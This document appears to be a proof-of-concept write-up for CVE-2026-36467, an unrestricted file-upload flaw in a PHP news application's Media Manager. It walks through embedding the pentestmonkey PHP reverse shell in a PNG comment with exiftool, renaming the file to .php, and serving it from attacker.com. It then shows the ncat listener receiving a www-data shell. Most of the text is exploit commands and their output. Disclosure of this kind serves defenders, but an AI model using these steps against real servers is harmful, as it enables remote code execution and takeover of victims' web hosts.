

# CVE-2026-36467

Unrestricted Upload of File with Dangerous Type in `core/modules/media.php` allows remote authenticated users with access to the Media Manager panel to execute arbitrary code in the context of the web application, leading to remote server access by triggering a reverse shell.

Any `.png` image will do.
We then prepare the famous pentestmonkey php reverse shell payload, and load it as a comment in the image via `exiftool`.

```bash
exiftool -comment="$(cat shell.php)" unlock.png
```

The image is then renamed to a `.php` extension.

```bash
exiftool ../win-shared/unlock.php
ExifTool Version Number         : 13.50
File Name                       : unlock.php
Directory                       : ../win-shared
File Size                       : 5.2 kB
File Modification Date/Time     : 2026:06:18 14:55:41+03:00
File Access Date/Time           : 2026:06:18 14:55:41+03:00
File Inode Change Date/Time     : 2026:06:18 14:55:41+03:00
File Permissions                : -rwxrwxrwx
File Type                       : PNG
File Type Extension             : png
MIME Type                       : image/png
Image Width                     : 300
Image Height                    : 240
Bit Depth                       : 8
Color Type                      : Palette
Compression                     : Deflate/Inflate
Filter                          : Adaptive
Interlace                       : Noninterlaced
Palette                         : (Binary data 93 bytes, use -b option to extract)
Comment                         : <?php.// php-reverse-shell - A Reverse Shell implementation in PHP. Comments stripped to slim it down. RE: https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php.// Copyright (C) 2007 pentestmonkey@pentestmonkey.net..set_time_limit [SNIP]..?>
Image Size                      : 300x240
Megapixels                      : 0.072
```

As we make our image available in our attacking server, we start our listener for the reverse shell.

In the `Dashboard > Media Manager` tab, we type the path to the exploit file on our attacking machine (e.g. `http://attacker.com/unlock.php`), and press Enter.

The file is uploaded successfully, and is now visible as a clickable link in the same tab.



When we click on it, it attempts to load the image, which at the same time triggers the `PHP` code we hid in the comment; our listener get a callback, and we have a remote shell on the victim machine.

```bash
Ncat: Version 7.99 ( https://nmap.org/ncat )
Ncat: Listening on [::]:4545
Ncat: Listening on 0.0.0.0:4545
Ncat: Connection from [SNIP]
[SNIP]
www-data@cutenews:/$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@cutenews:/$
```